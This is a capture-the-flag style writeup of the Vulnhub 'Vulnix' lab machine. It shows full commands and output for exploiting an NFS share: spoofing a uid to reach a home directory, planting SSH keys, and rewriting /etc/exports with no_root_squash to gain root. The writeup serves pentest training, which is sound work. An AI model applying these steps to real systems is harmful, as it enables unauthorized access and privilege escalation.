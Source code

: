 ```yaml
---
layout: single_c
title:  "Vulnhub - Vulnix Writeup"
toc: true
date:   2020-04-25 10:43:16 +0530
categories: Vulnhub
tags: OSCP
classes: wide
---
```

## Description
[Vulnhub - Vulnix.](https://www.vulnhub.com/entry/hacklab-vulnix,48/) Here we have a vulnerable Linux host with configuration weaknesses rather than purposely vulnerable software versions (well at the time of release anyway!)

The host is based upon Ubuntu Server 12.04 and is fully patched as of early September 2012. 


The goal; boot up, find the IP, hack away and obtain the trophy hidden away in /root by any means you wish – excluding the actual hacking of the vmdk

Free free to contact me with any questions/comments using the comments section below.

Enjoy!


## Enumeration

### Nmap

```bash
kali@kali:~/Desktop/tools/autorecon/results/vulnix.com/scans$ cat _full_tcp_nmap.txt | grep open
22/tcp    open  ssh        syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp       syn-ack ttl 64 Postfix smtpd
79/tcp    open  finger     syn-ack ttl 64 Linux fingerd
110/tcp   open  pop3       syn-ack ttl 64 Dovecot pop3d
111/tcp   open  rpcbind    syn-ack ttl 64 2-4 (RPC #100000)
143/tcp   open  imap       syn-ack ttl 64 Dovecot imapd
512/tcp   open  exec       syn-ack ttl 64 netkit-rsh rexecd
513/tcp   open  login      syn-ack ttl 64 OpenBSD or Solaris rlogind
514/tcp   open  tcpwrapped syn-ack ttl 64
993/tcp   open  ssl/imaps? syn-ack ttl 64
995/tcp   open  ssl/pop3s? syn-ack ttl 64
2049/tcp  open  nfs_acl    syn-ack ttl 64 2-3 (RPC #100227)
38531/tcp open  mountd     syn-ack ttl 64 1-3 (RPC #100005)
39828/tcp open  mountd     syn-ack ttl 64 1-3 (RPC #100005)
45132/tcp open  status     syn-ack ttl 64 1 (RPC #100024)
49548/tcp open  mountd     syn-ack ttl 64 1-3 (RPC #100005)
52773/tcp open  nlockmgr   syn-ack ttl 64 1-4 (RPC #100021)
```

Quite a lot of open ports, mainly email related ports.

### NFS

We have a `nfs` running on port `2049`. Check the details using `showmount`.

```bash
kali@kali:~$ sudo showmount -e vulnix.com
Export list for vulnix.com:
/home/vulnix *
kali@kali:~$ 

```

So we can mount `/home/vulnix` on our system and access the file contents.

```bash
kali@kali:/tmp$ sudo mount vulnix.com:/home/vulnix /tmp/vulnix/

```

But trying to access the share fails.

```bash
kali@kali:/tmp$ cd vulnix/
bash: cd: vulnix/: Permission denied
kali@kali:/tmp$ stat vulnix/
  File: vulnix/
  Size: 4096            Blocks: 8          IO Block: 32768  directory
Device: 2fh/47d Inode: 32917       Links: 4
Access: (0750/drwxr-x---)  Uid: (65534/  nobody)   Gid: (4294967294/ UNKNOWN)
Access: 2020-04-25 01:50:44.984072401 -0400
Modify: 2020-04-24 23:01:51.903253225 -0400
Change: 2020-04-24 23:01:51.903253225 -0400
 Birth: -
```

The share seems to be owned by `uid` 65534 and `gid` 4294967294. This is because of a security feature in `NFS 4`. To access a locally mounted share, your `uid` and `gid` need to match the ones of the shared directory on the server.
Unfortunately, for security reasons, `NFS 4` doesn't show the real remote `uid` and `gid`, but the ones corresponding to the `nobody` user and group. But `NFS 3` displays the `uid` and `gid` of the remote user. Lets see if we can mount it using `NFS 3`. 

```bash
kali@kali:/tmp$ sudo mount -o v3 vulnix.com:/home/vulnix /tmp/vulnix/
kali@kali:/tmp$ stat vulnix/
  File: vulnix/
  Size: 4096            Blocks: 8          IO Block: 4096   directory
Device: 2dh/45d Inode: 32917       Links: 4
Access: (0750/drwxr-x---)  Uid: ( 2008/ UNKNOWN)   Gid: ( 2008/ UNKNOWN)
Access: 2020-04-25 01:50:44.984072401 -0400
Modify: 2020-04-24 23:01:51.903253225 -0400
Change: 2020-04-24 23:01:51.903253225 -0400
 Birth: -
```

We can see that the file belongs to a user with `uid` 2008. We can create a user with `uid` 2008. Or alternatively, we can use to use [NfSpy](https://github.com/bonsaiviking/NfSpy), which essentially automates this process (but spoofs the uid and gid instead of actually creating an user).

### Low Shell

`NfSpy` is spitting our errors in my system, so I won't be using it. Create a user with `uid` 2008 to access the share.
```bash
root@kali:/tmp$ sudo useradd -u 2008 vulnix -p vulnix
root@kali:/tmp# su vulnix
$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
$ cd /tmp/vulnix
$ ls -la
total 164
drwxr-x---  4 vulnix vulnix  4096 Apr 24 23:01 .
drwxrwxrwt 16 root   root    4096 Apr 26 12:39 ..
-rw-r--r--  1 vulnix vulnix   220 Apr  3  2012 .bash_logout
-rw-r--r--  1 vulnix vulnix  3486 Apr  3  2012 .bashrc
-rw-r--r--  1 vulnix vulnix   675 Apr  3  2012 .profile
```

Create `ssh` keys and add it to `authorized_keys`.

```bash
$ ssh-keygen    
Generating public/private rsa key pair.
Enter file in which to save the key (/home/vulnix/.ssh/id_rsa): /tmp/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/id_rsa.
Your public key has been saved in /tmp/id_rsa.pub.
The key fingerprint is:
SHA256:cjzGBLkXvS3bSIkrck75gFkhgr1WWRh2EIZDbHG7boA vulnix@kali
The keys randomart image is:
+---[RSA 3072]----+
| =ooBB+. .       |
|. B+=oo.. .      |
| . =.. o.o +     |
| .o  .o+o = .    |
|E.. .+.oSo =     |
|   o+ *+..o .    |
|    o= +         |
|   .  . .        |
|                 |
+----[SHA256]-----+
$ cd vulnix
$ mkdir .ssh
$ cp /tmp/id_rsa.pub ./.ssh/authorized_keys
$ cd .ssh
$ ls -la
total 12
drwx------ 2 vulnix vulnix 4096 Apr 24 22:28 .
drwxr-x--- 4 vulnix vulnix 4096 Apr 24 23:01 ..
-rw------- 1 vulnix vulnix  565 Apr 26 12:53 authorized_keys
```

Login using the private key.

```bash
root@kali:/tmp# ssh vulnix@vulnix.com -i /tmp/id_rsa
Warning: Permanently added the ECDSA host key for IP address '192.168.1.4' to the list of known hosts.
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Apr 26 17:55:58 BST 2020

  System load:  0.0              Processes:           89
  Usage of /:   90.3% of 773MB   Users logged in:     0
  Memory usage: 7%               IP address for eth0: 192.168.1.4
  Swap usage:   0%

  => / is using 90.3% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/

Last login: Sat Apr 25 06:50:41 2020 from 192.168.1.6
vulnix@vulnix:~$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
vulnix@vulnix:~$ 
```


### Root Shell

Check `sudo` permissions of the user.

```bash
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
vulnix@vulnix:~$ sudoedit /etc/exports 

```
We can edit the config used for `NFS` mount and change it to mount the root directory.

NFS Config

```bash
  GNU nano 2.2.6                                                            File: /var/tmp/exports.XXSHUwwz                                                   Modified  

# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
#/home/vulnix   *(rw,root_squash)
/   *(rw,no_root_squash)
```

We have to disable [`root_squash`](https://en.wikipedia.org/wiki/Unix_security#Root_squash) and then restart the box manually. I couldn't find any other way to restart the machine. Mount it again after restarting the system and add our `ssh` keys to `root` directory to gain `root` access.

```bash
root@kali:/tmp# sudo mount -o v3 vulnix.com:/ /tmp/vulnroot/
root@kali:/tmp# cd vulnroot/
root@kali:/tmp/vulnroot# ls
bin  boot  dev  etc  home  initrd.img  lib  lost+found  media  mnt  opt  proc  root  run  sbin  selinux  srv  sys  tmp  usr  var  vmlinuz
root@vulnix.com:/:/> mkdir /root/.ssh/
root@vulnix.com:/:/> cp /home/vulnix/.ssh/authorized_keys /root/.ssh/authorized_keys
```

Login using private key to get `root` shell.

```bash
kali@kali:/tmp$ sudo ssh root@vulnix.com -i id_rsa
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Apr 26 18:13:51 BST 2020

  System load:  0.0              Processes:           88
  Usage of /:   90.3% of 773MB   Users logged in:     0
  Memory usage: 7%               IP address for eth0: 192.168.1.4
  Swap usage:   0%

  => / is using 90.3% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/

Last login: Sat Apr 25 08:02:56 2020 from 192.168.1.6
root@vulnix:~# id                                      
uid=0(root) gid=0(root) groups=0(root)   
```